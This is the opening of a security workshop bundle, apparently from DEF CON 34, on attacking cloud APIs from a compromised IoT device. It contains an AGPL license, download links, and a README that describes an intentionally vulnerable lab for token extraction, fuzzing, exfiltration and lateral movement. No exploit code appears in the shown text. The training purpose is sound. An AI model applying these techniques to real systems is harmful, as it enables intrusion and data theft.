




# Attacking Cloud APIs from the IoT Edge

**Speakers:** Rodney 'BenevolentWorm' Beede  
**Conference:** DEF CON 34 (workshop materials)  
**Contents:** 49 readable files inlined below. This is the workshop's own source material, not slide text — no OCR is involved, so the code is exact.

## Files not inlined

Binaries and oversized artefacts, listed for completeness:

- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/.gitattributes` — 1 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/.gitignore` — 5 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/DEFCON34.notes` — 0 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/amd64-workstation.pkrvars.hcl` — 2 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/arm64-fusion.pkrvars.hcl` — 2 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/http-amd64/meta-data` — 0 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/http-amd64/user-data` — 2 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/http-arm64/meta-data` — 0 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/http-arm64/user-data` — 2 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/packer/ubuntu-vmware.pkr.hcl` — 6 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/broker/config/aclfile` — 1 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/desktop_background.png` — 3812 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/firmware/rootfs/etc/hosts` — 0 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/firmware/rootfs/etc/legacy_key.pem` — 0 KB (binary)
- `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/project-logo.png` — 1476 KB (binary)

## Materials

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/LICENSE`

```text
                    GNU AFFERO GENERAL PUBLIC LICENSE
                       Version 3, 19 November 2007

 Copyright (C) 2007 Free Software Foundation, Inc. <https://fsf.org/>
 Everyone is permitted to copy and distribute verbatim copies
 of this license document, but changing it is not allowed.

                            Preamble

  The GNU Affero General Public License is a free, copyleft license for
software and other kinds of works, specifically designed to ensure
cooperation with the community in the case of network server software.

  The licenses for most software and other practical works are designed
to take away your freedom to share and change the works.  By contrast,
our General Public Licenses are intended to guarantee your freedom to
share and change all versions of a program--to make sure it remains free
software for all its users.

  When we speak of free software, we are referring to freedom, not
price.  Our General Public Licenses are designed to make sure that you
have the freedom to distribute copies of free software (and charge for
them if you wish), that you receive source code or can get it if you
want it, that you can change the software or use pieces of it in new
free programs, and that you know you can do these things.

  Developers that use our General Public Licenses protect your rights
with two steps: (1) assert copyright on the software, and (2) offer
you this License which gives you legal permission to copy, distribute
and/or modify the software.

  A secondary benefit of defending all users' freedom is that
improvements made in alternate versions of the program, if they
receive widespread use, become available for other developers to
incorporate.  Many developers of free software are heartened and
encouraged by the resulting cooperation.  However, in the case of
software used on network servers, this result may fail to come about.
The GNU General Public License permits making a modified version and
letting the public access it on a server without ever releasing its
source code to the public.

  The GNU Affero General Public License is designed specifically to
ensure that, in such cases, the modified source code becomes available
to the community.  It requires the operator of a network server to
provide the source code of the modified version running there to the
users of that server.  Therefore, public use of a modified version, on
a publicly accessible server, gives the public access to the source
code of the modified version.

  An older license, called the Affero General Public License and
published by Affero, was designed to accomplish similar goals.  This is
a different license, not a version of the Affero GPL, but Affero has
released a new version of the Affero GPL which permits relicensing under
this license.

  The precise terms and conditions for copying, distribution and
modification follow.

                       TERMS AND CONDITIONS

  0. Definitions.

  "This License" refers to version 3 of the GNU Affero General Public License.

  "Copyright" also means copyright-like laws that apply to other kinds of
works, such as semiconductor masks.

  "The Program" refers to any copyrightable work licensed under this
License.  Each licensee is addressed as "you".  "Licensees" and
"recipients" may be individuals or organizations.

  To "modify" a work means to copy from or adapt all or part of the work
in a fashion requiring copyright permission, other than the making of an
exact copy.  The resulting work is called a "modified version" of the
earlier work or a work "based on" the earlier work.

  A "covered work" means either the unmodified Program or a work based
on the Program.

  To "propagate" a work means to do anything with it that, without
permission, would make you directly or secondarily liable for
infringement under applicable copyright law, except executing it on a
computer or modifying a private copy.  Propagation includes copying,
distribution (with or without modification), making available to the
public, and in some countries other activities as well.

  To "convey" a work means any kind of propagation that enables other
parties to make or receive copies.  Mere interaction with a user through
a computer network, with no transfer of a copy, is not conveying.

  An interactive user interface displays "Appropriate Legal Notices"
to the extent that it includes a convenient and prominently visible
feature that (1) displays an appropriate copyright notice, and (2)
tells the user that there is no warranty for the work (except to the
extent that warranties are provided), that licensees may convey the
work under this License, and how to view a copy of this License.  If
the interface presents a list of user commands or options, such as a
menu, a prominent item in the list meets this criterion.

  1. Source Code.

  The "source code" for a work means the preferred form of the work
for making modifications to it.  "Object code" means any non-source
form of a work.

  A "Standard Interface" means an interface that either is an official
standard defined by a recognized standards body, or, in the case of
interfaces specified for a particular programming language, one that
is widely used among developers working in that language.

  The "System Libraries" of an executable work include anything, other
than the work as a whole, that (a) is included in the normal form of
packaging a Major Component, but which is not part of that Major
Component, and (b) serves only to enable use of the work with that
Major Component, or to implement a Standard Interface for which an
implementation is available to the public in source code form.  A
"Major Component", in this context, means a major essential component
(kernel, window system, and so on) of the specific operating system
(if any) on which the executable work runs, or a compiler used to
produce the work, or an object code interpreter used to run it.

  The "Corresponding Source" for a work in object code form means all
the source code needed to generate, install, and (for an executable
work) run the object code and to modify the work, including scripts to
control those activities.  However, it does not include the work's
System Libraries, or general-purpose tools or generally available free
programs which are used unmodified in performing those activities but
which are not part of the work.  For example, Corresponding Source
includes interface definition files associated with source files for
the work, and the source code for shared libraries and dynamically
linked subprograms that the work is specifically designed to require,
such as by intimate data communication or control flow between those
subprograms and other parts of the work.

  The Corresponding Source need not include anything that users
can regenerate automatically from other parts of the Corresponding
Source.

  The Corresponding Source for a work in source code form is that
same work.

  2. Basic Permissions.

  All rights granted under this License are granted for the term of
copyright on the Program, and are irrevocable provided the stated
conditions are met.  This License explicitly affirms your unlimited
permission to run the unmodified Program.  The output from running a
covered work is covered by this License only if the output, given its
content, constitutes a covered work.  This License acknowledges your
rights of fair use or other equivalent, as provided by copyright law.

  You may make, run and propagate covered works that you do not
convey, without conditions so long as your license otherwise remains
in force.  You may convey covered works to others for the sole purpose
of having them make modifications exclusively for you, or provide you
with facilities for running those works, provided that you comply with
the terms of this License in conveying all material for which you do
not control copyright.  Those thus making or running the covered works
for you must do so exclusively on your behalf, under your direction
and control, on terms that prohibit them from making any copies of
your copyrighted material outside their relationship with you.

  Conveying under any other circumstances is permitted solely under
the conditions stated below.  Sublicensing is not allowed; section 10
makes it unnecessary.

  3. Protecting Users' Legal Rights From Anti-Circumvention Law.

  No covered work shall be deemed part of an effective technological
measure under any applicable law fulfilling obligations under article
11 of the WIPO copyright treaty adopted on 20 December 1996, or
similar laws prohibiting or restricting circumvention of such
measures.

  When you convey a covered work, you waive any legal power to forbid
circumvention of technological measures to the extent such circumvention
is effected by exercising rights under this License with respect to
the covered work, and you disclaim any intention to limit operation or
modification of the work as a means of enforcing, against the work's
users, your or third parties' legal rights to forbid circumvention of
technological measures.

  4. Conveying Verbatim Copies.

  You may convey verbatim copies of the Program's source code as you
receive it, in any medium, provided that you conspicuously and
appropriately publish on each copy an appropriate copyright notice;
keep intact all notices stating that this License and any
non-permissive terms added in accord with section 7 apply to the code;
keep intact all notices of the absence of any warranty; and give all
recipients a copy of this License along with the Program.

  You may charge any price or no price for each copy that you convey,
and you may offer support or warranty protection for a fee.

  5. Conveying Modified Source Versions.

  You may convey a work based on the Program, or the modifications to
produce it from the Program, in the form of source code under the
terms of section 4, provided that you also meet all of these conditions:

    a) The work must carry prominent notices stating that you modified
    it, and giving a relevant date.

    b) The work must carry prominent notices stating that it is
    released under this License and any conditions added under section
    7.  This requirement modifies the requirement in section 4 to
    "keep intact all notices".

    c) You must license the entire work, as a whole, under this
    License to anyone who comes into possession of a copy.  This
    License will therefore apply, along with any applicable section 7
    additional terms, to the whole of the work, and all its parts,
    regardless of how they are packaged.  This License gives no
    permission to license the work in any other way, but it does not
    invalidate such permission if you have separately received it.

    d) If the work has interactive user interfaces, each must display
    Appropriate Legal Notices; however, if the Program has interactive
    interfaces that do not display Appropriate Legal Notices, your
    work need not make them do so.

  A compilation of a covered work with other separate and independent
works, which are not by their nature extensions of the covered work,
and which are not combined with it such as to form a larger program,
in or on a volume of a storage or distribution medium, is called an
"aggregate" if the compilation and its resulting copyright are not
used to limit the access or legal rights of the compilation's users
beyond what the individual works permit.  Inclusion of a covered work
in an aggregate does not cause this License to apply to the other
parts of the aggregate.

  6. Conveying Non-Source Forms.

  You may convey a covered work in object code form under the terms
of sections 4 and 5, provided that you also convey the
machine-readable Corresponding Source under the terms of this License,
in one of these ways:

    a) Convey the object code in, or embodied in, a physical product
    (including a physical distribution medium), accompanied by the
    Corresponding Source fixed on a durable physical medium
    customarily used for software interchange.

    b) Convey the object code in, or embodied in, a physical product
    (including a physical distribution medium), accompanied by a
    written offer, valid for at least three years and valid for as
    long as you offer spare parts or customer support for that product
    model, to give anyone who possesses the object code either (1) a
    copy of the Corresponding Source for all the software in the
    product that is covered by this License, on a durable physical
    medium customarily used for software interchange, for a price no
    more than your reasonable cost of physically performing this
    conveying of source, or (2) access to copy the
    Corresponding Source from a network server at no charge.

    c) Convey individual copies of the object code with a copy of the
    written offer to provide the Corresponding Source.  This
    alternative is allowed only occasionally and noncommercially, and
    only if you received the object code with such an offer, in accord
    with subsection 6b.

    d) Convey the object code by offering access from a designated
    place (gratis or for a charge), and offer equivalent access to the
    Corresponding Source in the same way through the same place at no
    further charge.  You need not require recipients to copy the
    Corresponding Source along with the object code.  If the place to
    copy the object code is a network server, the Corresponding Source
    may be on a different server (operated by you or a third party)
    that supports equivalent copying facilities, provided you maintain
    clear directions next to the object code saying where to find the
    Corresponding Source.  Regardless of what server hosts the
    Corresponding Source, you remain obligated to ensure that it is
    available for as long as needed to satisfy these requirements.

    e) Convey the object code using peer-to-peer transmission, provided
    you inform other peers where the object code and Corresponding
    Source of the work are being offered to the general public at no
    charge under subsection 6d.

  A separable portion of the object code, whose source code is excluded
from the Corresponding Source as a System Library, need not be
included in conveying the object code work.

  A "User Product" is either (1) a "consumer product", which means any
tangible personal property which is normally used for personal, family,
or household purposes, or (2) anything designed or sold for incorporation
into a dwelling.  In determining whether a product is a consumer product,
doubtful cases shall be resolved in favor of coverage.  For a particular
product received by a particular user, "normally used" refers to a
typical or common use of that class of product, regardless of the status
of the particular user or of the way in which the particular user
actually uses, or expects or is expected to use, the product.  A product
is a consumer product regardless of whether the product has substantial
commercial, industrial or non-consumer uses, unless such uses represent
the only significant mode of use of the product.

  "Installation Information" for a User Product means any methods,
procedures, authorization keys, or other information required to install
and execute modified versions of a covered work in that User Product from
a modified version of its Corresponding Source.  The information must
suffice to ensure that the continued functioning of the modified object
code is in no case prevented or interfered with solely because
modification has been made.

  If you convey an object code work under this section in, or with, or
specifically for use in, a User Product, and the conveying occurs as
part of a transaction in which the right of possession and use of the
User Product is transferred to the recipient in perpetuity or for a
fixed term (regardless of how the transaction is characterized), the
Corresponding Source conveyed under this section must be accompanied
by the Installation Information.  But this requirement does not apply
if neither you nor any third party retains the ability to install
modified object code on the User Product (for example, the work has
been installed in ROM).

  The requirement to provide Installation Information does not include a
requirement to continue to provide support service, warranty, or updates
for a work that has been modified or installed by the recipient, or for
the User Product in which it has been modified or installed.  Access to a
network may be denied when the modification itself materially and
adversely affects the operation of the network or violates the rules and
protocols for communication across the network.

  Corresponding Source conveyed, and Installation Information provided,
in accord with this section must be in a format that is publicly
documented (and with an implementation available to the public in
source code form), and must require no special password or key for
unpacking, reading or copying.

  7. Additional Terms.

  "Additional permissions" are terms that supplement the terms of this
License by making exceptions from one or more of its conditions.
Additional permissions that are applicable to the entire Program shall
be treated as though they were included in this License, to the extent
that they are valid under applicable law.  If additional permissions
apply only to part of the Program, that part may be used separately
under those permissions, but the entire Program remains governed by
this License without regard to the additional permissions.

  When you convey a copy of a covered work, you may at your option
remove any additional permissions from that copy, or from any part of
it.  (Additional permissions may be written to require their own
removal in certain cases when you modify the work.)  You may place
additional permissions on material, added by you to a covered work,
for which you have or can give appropriate copyright permission.

  Notwithstanding any other provision of this License, for material you
add to a covered work, you may (if authorized by the copyright holders of
that material) supplement the terms of this License with terms:

    a) Disclaiming warranty or limiting liability differently from the
    terms of sections 15 and 16 of this License; or

    b) Requiring preservation of specified reasonable legal notices or
    author attributions in that material or in the Appropriate Legal
    Notices displayed by works containing it; or

    c) Prohibiting misrepresentation of the origin of that material, or
    requiring that modified versions of such material be marked in
    reasonable ways as different from the original version; or

    d) Limiting the use for publicity purposes of names of licensors or
    authors of the material; or

    e) Declining to grant rights under trademark law for use of some
    trade names, trademarks, or service marks; or

    f) Requiring indemnification of licensors and authors of that
    material by anyone who conveys the material (or modified versions of
    it) with contractual assumptions of liability to the recipient, for
    any liability that these contractual assumptions directly impose on
    those licensors and authors.

  All other non-permissive additional terms are considered "further
restrictions" within the meaning of section 10.  If the Program as you
received it, or any part of it, contains a notice stating that it is
governed by this License along with a term that is a further
restriction, you may remove that term.  If a license document contains
a further restriction but permits relicensing or conveying under this
License, you may add to a covered work material governed by the terms
of that license document, provided that the further restriction does
not survive such relicensing or conveying.

  If you add terms to a covered work in accord with this section, you
must place, in the relevant source files, a statement of the
additional terms that apply to those files, or a notice indicating
where to find the applicable terms.

  Additional terms, permissive or non-permissive, may be stated in the
form of a separately written license, or stated as exceptions;
the above requirements apply either way.

  8. Termination.

  You may not propagate or modify a covered work except as expressly
provided under this License.  Any attempt otherwise to propagate or
modify it is void, and will automatically terminate your rights under
this License (including any patent licenses granted under the third
paragraph of section 11).

  However, if you cease all violation of this License, then your
license from a particular copyright holder is reinstated (a)
provisionally, unless and until the copyright holder explicitly and
finally terminates your license, and (b) permanently, if the copyright
holder fails to notify you of the violation by some reasonable means
prior to 60 days after the cessation.

  Moreover, your license from a particular copyright holder is
reinstated permanently if the copyright holder notifies you of the
violation by some reasonable means, this is the first time you have
received notice of violation of this License (for any work) from that
copyright holder, and you cure the violation prior to 30 days after
your receipt of the notice.

  Termination of your rights under this section does not terminate the
licenses of parties who have received copies or rights from you under
this License.  If your rights have been terminated and not permanently
reinstated, you do not qualify to receive new licenses for the same
material under section 10.

  9. Acceptance Not Required for Having Copies.

  You are not required to accept this License in order to receive or
run a copy of the Program.  Ancillary propagation of a covered work
occurring solely as a consequence of using peer-to-peer transmission
to receive a copy likewise does not require acceptance.  However,
nothing other than this License grants you permission to propagate or
modify any covered work.  These actions infringe copyright if you do
not accept this License.  Therefore, by modifying or propagating a
covered work, you indicate your acceptance of this License to do so.

  10. Automatic Licensing of Downstream Recipients.

  Each time you convey a covered work, the recipient automatically
receives a license from the original licensors, to run, modify and
propagate that work, subject to this License.  You are not responsible
for enforcing compliance by third parties with this License.

  An "entity transaction" is a transaction transferring control of an
organization, or substantially all assets of one, or subdividing an
organization, or merging organizations.  If propagation of a covered
work results from an entity transaction, each party to that
transaction who receives a copy of the work also receives whatever
licenses to the work the party's predecessor in interest had or could
give under the previous paragraph, plus a right to possession of the
Corresponding Source of the work from the predecessor in interest, if
the predecessor has it or can get it with reasonable efforts.

  You may not impose any further restrictions on the exercise of the
rights granted or affirmed under this License.  For example, you may
not impose a license fee, royalty, or other charge for exercise of
rights granted under this License, and you may not initiate litigation
(including a cross-claim or counterclaim in a lawsuit) alleging that
any patent claim is infringed by making, using, selling, offering for
sale, or importing the Program or any portion of it.

  11. Patents.

  A "contributor" is a copyright holder who authorizes use under this
License of the Program or a work on which the Program is based.  The
work thus licensed is called the contributor's "contributor version".

  A contributor's "essential patent claims" are all patent claims
owned or controlled by the contributor, whether already acquired or
hereafter acquired, that would be infringed by some manner, permitted
by this License, of making, using, or selling its contributor version,
but do not include claims that would be infringed only as a
consequence of further modification of the contributor version.  For
purposes of this definition, "control" includes the right to grant
patent sublicenses in a manner consistent with the requirements of
this License.

  Each contributor grants you a non-exclusive, worldwide, royalty-free
patent license under the contributor's essential patent claims, to
make, use, sell, offer for sale, import and otherwise run, modify and
propagate the contents of its contributor version.

  In the following three paragraphs, a "patent license" is any express
agreement or commitment, however denominated, not to enforce a patent
(such as an express permission to practice a patent or covenant not to
sue for patent infringement).  To "grant" such a patent license to a
party means to make such an agreement or commitment not to enforce a
patent against the party.

  If you convey a covered work, knowingly relying on a patent license,
and the Corresponding Source of the work is not available for anyone
to copy, free of charge and under the terms of this License, through a
publicly available network server or other readily accessible means,
then you must either (1) cause the Corresponding Source to be so
available, or (2) arrange to deprive yourself of the benefit of the
patent license for this particular work, or (3) arrange, in a manner
consistent with the requirements of this License, to extend the patent
license to downstream recipients.  "Knowingly relying" means you have
actual knowledge that, but for the patent license, your conveying the
covered work in a country, or your recipient's use of the covered work
in a country, would infringe one or more identifiable patents in that
country that you have reason to believe are valid.

  If, pursuant to or in connection with a single transaction or
arrangement, you convey, or propagate by procuring conveyance of, a
covered work, and grant a patent license to some of the parties
receiving the covered work authorizing them to use, propagate, modify
or convey a specific copy of the covered work, then the patent license
you grant is automatically extended to all recipients of the covered
work and works based on it.

  A patent license is "discriminatory" if it does not include within
the scope of its coverage, prohibits the exercise of, or is
conditioned on the non-exercise of one or more of the rights that are
specifically granted under this License.  You may not convey a covered
work if you are a party to an arrangement with a third party that is
in the business of distributing software, under which you make payment
to the third party based on the extent of your activity of conveying
the work, and under which the third party grants, to any of the
parties who would receive the covered work from you, a discriminatory
patent license (a) in connection with copies of the covered work
conveyed by you (or copies made from those copies), or (b) primarily
for and in connection with specific products or compilations that
contain the covered work, unless you entered into that arrangement,
or that patent license was granted, prior to 28 March 2007.

  Nothing in this License shall be construed as excluding or limiting
any implied license or other defenses to infringement that may
otherwise be available to you under applicable patent law.

  12. No Surrender of Others' Freedom.

  If conditions are imposed on you (whether by court order, agreement or
otherwise) that contradict the conditions of this License, they do not
excuse you from the conditions of this License.  If you cannot convey a
covered work so as to satisfy simultaneously your obligations under this
License and any other pertinent obligations, then as a consequence you may
not convey it at all.  For example, if you agree to terms that obligate you
to collect a royalty for further conveying from those to whom you convey
the Program, the only way you could satisfy both those terms and this
License would be to refrain entirely from conveying the Program.

  13. Remote Network Interaction; Use with the GNU General Public License.

  Notwithstanding any other provision of this License, if you modify the
Program, your modified version must prominently offer all users
interacting with it remotely through a computer network (if your version
supports such interaction) an opportunity to receive the Corresponding
Source of your version by providing access to the Corresponding Source
from a network server at no charge, through some standard or customary
means of facilitating copying of software.  This Corresponding Source
shall include the Corresponding Source for any work covered by version 3
of the GNU General Public License that is incorporated pursuant to the
following paragraph.

  Notwithstanding any other provision of this License, you have
permission to link or combine any covered work with a work licensed
under version 3 of the GNU General Public License into a single
combined work, and to convey the resulting work.  The terms of this
License will continue to apply to the part which is the covered work,
but the work with which it is combined will remain governed by version
3 of the GNU General Public License.

  14. Revised Versions of this License.

  The Free Software Foundation may publish revised and/or new versions of
the GNU Affero General Public License from time to time.  Such new versions
will be similar in spirit to the present version, but may differ in detail to
address new problems or concerns.

  Each version is given a distinguishing version number.  If the
Program specifies that a certain numbered version of the GNU Affero General
Public License "or any later version" applies to it, you have the
option of following the terms and conditions either of that numbered
version or of any later version published by the Free Software
Foundation.  If the Program does not specify a version number of the
GNU Affero General Public License, you may choose any version ever published
by the Free Software Foundation.

  If the Program specifies that a proxy can decide which future
versions of the GNU Affero General Public License can be used, that proxy's
public statement of acceptance of a version permanently authorizes you
to choose that version for the Program.

  Later license versions may give you additional or different
permissions.  However, no additional obligations are imposed on any
author or copyright holder as a result of your choosing to follow a
later version.

  15. Disclaimer of Warranty.

  THERE IS NO WARRANTY FOR THE PROGRAM, TO THE EXTENT PERMITTED BY
APPLICABLE LAW.  EXCEPT WHEN OTHERWISE STATED IN WRITING THE COPYRIGHT
HOLDERS AND/OR OTHER PARTIES PROVIDE THE PROGRAM "AS IS" WITHOUT WARRANTY
OF ANY KIND, EITHER EXPRESSED OR IMPLIED, INCLUDING, BUT NOT LIMITED TO,
THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR
PURPOSE.  THE ENTIRE RISK AS TO THE QUALITY AND PERFORMANCE OF THE PROGRAM
IS WITH YOU.  SHOULD THE PROGRAM PROVE DEFECTIVE, YOU ASSUME THE COST OF
ALL NECESSARY SERVICING, REPAIR OR CORRECTION.

  16. Limitation of Liability.

  IN NO EVENT UNLESS REQUIRED BY APPLICABLE LAW OR AGREED TO IN WRITING
WILL ANY COPYRIGHT HOLDER, OR ANY OTHER PARTY WHO MODIFIES AND/OR CONVEYS
THE PROGRAM AS PERMITTED ABOVE, BE LIABLE TO YOU FOR DAMAGES, INCLUDING ANY
GENERAL, SPECIAL, INCIDENTAL OR CONSEQUENTIAL DAMAGES ARISING OUT OF THE
USE OR INABILITY TO USE THE PROGRAM (INCLUDING BUT NOT LIMITED TO LOSS OF
DATA OR DATA BEING RENDERED INACCURATE OR LOSSES SUSTAINED BY YOU OR THIRD
PARTIES OR A FAILURE OF THE PROGRAM TO OPERATE WITH ANY OTHER PROGRAMS),
EVEN IF SUCH HOLDER OR OTHER PARTY HAS BEEN ADVISED OF THE POSSIBILITY OF
SUCH DAMAGES.

  17. Interpretation of Sections 15 and 16.

  If the disclaimer of warranty and limitation of liability provided
above cannot be given local legal effect according to their terms,
reviewing courts shall apply local law that most closely approximates
an absolute waiver of all civil liability in connection with the
Program, unless a warranty or assumption of liability accompanies a
copy of the Program in return for a fee.

                     END OF TERMS AND CONDITIONS

            How to Apply These Terms to Your New Programs

  If you develop a new program, and you want it to be of the greatest
possible use to the public, the best way to achieve this is to make it
free software which everyone can redistribute and change under these terms.

  To do so, attach the following notices to the program.  It is safest
to attach them to the start of each source file to most effectively
state the exclusion of warranty; and each file should have at least
the "copyright" line and a pointer to where the full notice is found.

    <one line to give the program's name and a brief idea of what it does.>
    Copyright (C) <year>  <name of author>

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU Affero General Public License as published
    by the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU Affero General Public License for more details.

    You should have received a copy of the GNU Affero General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.

Also add information on how to contact you by electronic and paper mail.

  If your software can interact with users remotely through a computer
network, you should also make sure that it provides a way for users to
get its source.  For example, if your program is a web application, its
interface could display a "Source" link that leads users to an archive
of the code.  There are many ways you could offer source, and different
solutions will be better for different programs; see section 13 for the
specific requirements.

  You should also get your employer (if you work as a programmer) or school,
if any, to sign a "copyright disclaimer" for the program, if necessary.
For more information on this, and how to apply and follow the GNU AGPL, see
<https://www.gnu.org/licenses/>.
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/README.1st`

```markdown
Special Def Con 34 note - make sure you grab the VM ova and latest github code

Download URLs
   - https://drive.google.com/drive/folders/1tMl-zt_sok0qusASmfl_XjzEbW8S3aVL?usp=sharing
   - https://github.com/rbeede/edge-to-cloud-pwn
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/README.md`

````markdown
# Attacking Cloud APIs from the IoT Edge


> **Latest version:** https://github.com/rbeede/edge-to-cloud-pwn

## Abstract:

This course covers attacking the cloud REST APIs and IoT provider (cloud customer responsibility) configurations to demonstrate data exfiltration, remote code execution, and lateral movement. Hands-on experience with using an already compromised, simulated IoT device as well as navigating pen testing (fuzzing) of the common protocols (i.e. MQTT, HTTP) will be covered.

### Workshop goal
Teach students practical, repeatable techniques to observe, extract, and abuse cloud API credentials and logic from the vantage of a compromised IoT device. Students will leave able to enumerate device→cloud flows, extract tokens, fuzz REST/MQTT endpoints, and demonstrate controlled lateral movement inside an isolated cloud tenant.

## Overview:

It simulates a vulnerable IoT product — a mock cloud REST API, an MQTT broker, and simulated devices — so students can practice the full chain from a compromised device to the cloud tenant, against instructor-provided targets only. It is designed to run the full stack on each student's device with the assumption that no Internet access is available.

# Quickstart

[quickstart.md](documentation/quickstart.md)

### ⚠️ Authorization & scope — read first
This range is **intentionally vulnerable**. It exists to be attacked **in an isolated lab**.
* Run it on a host-only / internal / air-gapped network. **Do not expose any port to the internet** and **do not point any tool at systems you don't own or aren't authorized to test.**
* The "device RCE" is **simulated** (a lab-only debug agent) — this repo contains no real device exploit. The targets only yield to the planted vulnerabilities.

## Architecture

```
  attacker (Burp + tools)
        |  HTTPS/MQTT/agent
        v
  +-----------+      mTLS 9443      +-----------------------------+
  |  device   |-------------------->|  cloud  (REST 8443 / 9443)  |
